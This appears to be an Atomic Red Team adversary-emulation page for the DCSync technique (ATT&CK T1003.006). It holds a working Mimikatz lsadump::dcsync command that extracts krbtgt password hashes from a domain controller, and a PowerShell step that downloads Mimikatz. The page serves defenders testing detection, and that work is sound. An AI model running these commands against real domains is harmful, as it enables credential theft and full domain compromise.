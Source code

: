 # T1003.006 - DCSync
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)
<blockquote>Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)


<br/>

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | String | example.com|
| user | Targeted user | String | krbtgt|
| mimikatz_path | Mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
